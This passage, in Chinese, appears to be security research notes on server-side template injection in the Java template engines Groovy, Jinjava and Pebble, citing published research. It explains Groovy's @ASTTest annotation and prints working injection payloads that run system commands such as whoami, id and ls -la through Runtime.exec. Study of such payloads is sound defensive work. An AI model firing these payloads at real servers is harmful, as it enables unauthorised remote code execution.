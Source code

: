 说明文档中有很大的篇幅说明了Groovy中的元编程部分。一般编程操作的是数据，而元编程操作的是代码，简单理解就是用代码来生成代码。元编程分为运行时和编译时。编译时元编程会在编译时生成代码，转换成AST。不同的注解能生成不同的方法，例如`@ToString`能将类中属性编程字符串，`@EqualsAndHashCode`能自动生成equals和hashcode方法。

注解也有很多种，代表设计模式的注解（`@DelegateAST`委托设计模式、`@Singleton`单例设计模式）；日志框架类注解（`@groovy.util.logging.Log`）；并发模式注解（`@groovy.transform.Synchronized`）；测试用例相关注解（`@groovy.transform.ASTTest`）等

测试用例注解中的`@groovy.transform.ASTTest`，这是Orange在绕过Groovy沙箱时用到的技巧。该注解有两个参数`phase`和`value`。对于`value`官方给出的解释是`value: the code which will be executed once the phase is reached, on the annotated node`。也就是被标记为`@ASTTest`的节点，其value的代码会被执行。从而构造出了如下POC
```
${@ASTTest(value={assert java.lang.Runtime.getRuntime().exec("whoami")})
def x}

${new groovy.lang.GroovyClassLoader().parseClass("@groovy.transform.ASTTest(value={assert java.lang.Runtime.getRuntime().exec(\"calc.exe\")})def x") }
```
在Groovy中有很多保留关键字，如`new、def`，def关键字参考python，用于定义方法，在Groovy中还可以定义变量。new关键字则是创建类对象。

关于Groovy的POC可以参考：https://security.humanativaspa.it/groovy-template-engine-exploitation-notes-from-a-real-case-scenario/

关于Groovy POC的研究可以参考Orange研究Jenkins时的思路：https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE/

## jinjava
JinJava的语法是基于django的，呈现jinja模板。所以样式如`{{}}`。官网：https://github.com/HubSpot/jinjava

POC和EL的类似
```
{{'a'.getClass().forName('javax.script.ScriptEngineManager').newInstance().getEngineByName('JavaScript').eval(\"new java.lang.String('xxx')\")}}
```

## pebble
Pebble是一个受Twig启发的Java模板引擎，语法类似python的Jinja模板引擎。主要有两种形式的分隔符`{{ ... }}`和`{% ... %}`。前者用于输出表达式结果，后者用于流程控制。流程控制包含很多内置标签：`set、autoescape、block、flush、filter、for、from、if、import、include`等，参考：https://pebbletemplates.io/wiki/tag/set/

set标签用于定义变量，POC参考文章：https://research.securitum.com/server-side-template-injection-on-the-example-of-pebble/
```
{{ variable.getClass().forName('java.lang.Runtime').getRuntime().exec('ls -la') }}

// Java 9+
{% set cmd = 'id' %}
{% set bytes = (1).TYPE
     .forName('java.lang.Runtime')
     .methods[6]
     .invoke(null,null)
     .exec(cmd)
     .inputStream
     .readAllBytes() %}
{{ (1).TYPE
     .forName('java.lang.String')
     .constructors[0]
     .newInstance(([bytes]).toArray()) }}
```
